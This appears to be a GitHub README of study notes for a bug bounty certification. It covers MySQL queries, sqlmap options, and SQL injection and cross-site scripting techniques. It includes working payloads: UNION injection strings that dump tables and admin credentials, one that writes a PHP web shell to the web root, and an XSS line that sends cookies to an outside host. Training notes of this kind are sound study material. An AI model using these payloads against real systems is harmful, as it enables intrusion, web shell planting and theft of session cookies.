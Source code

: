# CBBH
Stuff for CBBH


  JavaScript Deobsfucation - Tools
    
    https://beautifier.io/
    http://www.jsnice.org/


  Intro to MySQL

    Connect to database
    sudo service mysql start
    
    mysql -h 94.237.62.195 -P 39097 -u root --password
    -h : for host/target
    -P : for custom port
    -u : for user
    --password : for password
  
    Find stuff with queries
    
    select * from employees where first_name LIKE 'Bar%' AND hire_date='1990-01-01';
    LIKE : You may use when searching for a substring in string (i.e Bar = Barton).
    % : Starts with (used in mysql)

    ')+or+id=4--+-

    Database enumeration

    #Get it without line breaking
    '+union+select+1,group_concat(table_name),3,4+from+information_schema.tables--+-

    #Get it nicier
    '+union+select+1,table_schema,table_name,4,5+from+information_schema.tables--+-
    
    #Writing files
    '+union+select+null,null,null,"<?php+system($_REQUEST['cmd']);?>"+into+outfile+"/var/www/html/blah2.php"--+-

    #Get data from whithin another database
    '+union+select+1,username,password,4,5+from+backup.admin_bk--+-

  Cross-Site Scripting

    #When creating a phishing form the submit button has to be just like so
    <input type="submit" name="submit" value="login">

    #That's a way to remove unanted html stuff from the page [gotta wrap it between script tags]
    document.getElementById("id-here").remove();


    #To stealk cookies
    "><img src=x onerror=this.src="http://ip/?c"+document.cookie;>

  SQLmap
    
    ##TIP: IF YOU CAN FIND BOUNDARIES, TRY TO COUNT THE NUMBER OF COLUMNS AND SPECIFY IT IN SQLMAP
    
    #Techniques and their meaning
    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries

    #To parse erros and see the response
    --parse-errors

    #Level/Risk
    Risk: Might cause database entry loss or DoS (Denial of Service) [1-3]
    Level: Extends vectors and boundaries (i.e the lower the expectancy, the higher the level) [1-5]

    #To display the payloads
    -v 3 [verbose level 3]

    #To provide a certain number of cols
    --union-cols=1337

    #Boundaries
    Once you've found a specific prefix, do not forget to add the apostrophe ' to it
    --prefix="<change-here>"
    --suffix="<change-here>"

    #Search function
    --search 
    -C: column
    -T: table
    -D: database

    #Handling csrf token
    ##NOTE: THE PROPER WAY TO HANDLE THIS KINDA TOKEN IS BY, PASSING THEM WHEREVER THEY APPEAR (e.g cookie/body) AND USE THE FLAG --csrf-token WITH THE NAME OF THE PARAM THAT HOLDS THE TOKEN
    
    
    

